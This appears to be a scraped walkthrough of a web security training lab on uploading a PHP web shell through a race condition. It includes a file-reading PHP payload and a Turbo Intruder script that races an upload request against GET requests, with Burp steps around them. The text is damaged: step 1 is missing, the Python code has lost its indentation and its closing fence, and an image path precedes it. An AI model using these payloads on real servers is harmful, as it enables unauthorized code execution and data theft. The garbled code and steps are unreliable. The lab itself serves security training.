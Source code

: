 To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

As you can see from the source code above, the uploaded file is moved to an accessible folder, where it is checked for viruses. Malicious files are only removed once the virus check is complete. This means it's possible to execute the file in the small time-window before it is removed.

2. In Burp, go to **Proxy > HTTP history** and notice that your image was fetched using a `GET` request to `/files/avatars/<YOUR-IMAGE>`.
3. On your system, create a file called `exploit.php` containing a script for fetching the contents of Carlos's secret. For example:
    `<?php echo file_get_contents('/home/carlos/secret'); ?>`
4. Log in and attempt to upload the script as your avatar. Observe that the server appears to successfully prevent you from uploading files that aren't images, even if you try using some of the techniques you've learned in previous labs.
5. If you haven't already, add the [Turbo Intruder](https://portswigger.net/bappstore/9abaa233088242e8be252cd4ff534988) extension to Burp from the BApp store.
6. Right-click on the `POST /my-account/avatar` request that was used to submit the file upload and select **Extensions > Turbo Intruder > Send to turbo intruder**. The Turbo Intruder window opens.
7. Copy and paste the following script template into Turbo Intruder's Python editor:
    ```    
    def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''

    request2 = '''<YOUR-GET-REQUEST>'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)
    
def handleResponse(req, interesting): table.add(req)

8. In the script, replace `<YOUR-POST-REQUEST>` with the entire `POST /my-account/avatar` request containing your `exploit.php` file. You can copy and paste this from the top of the Turbo Intruder window.
9. Replace `<YOUR-GET-REQUEST>` with a `GET` request for fetching your uploaded PHP file. The simplest way to do this is to copy the `GET /files/avatars/<YOUR-IMAGE>` request from your proxy history, then change the filename in the path to `exploit.php`.
10. At the bottom of the Turbo Intruder window, click **Attack**. This script will submit a single `POST` request to upload your `exploit.php` file, instantly followed by 5 `GET` requests to `/files/avatars/exploit.php`.
11. In the results list, notice that some of the `GET` requests received a 200 response containing Carlos's secret. These requests hit the server after the PHP file was uploaded, but before it failed validation and was deleted.

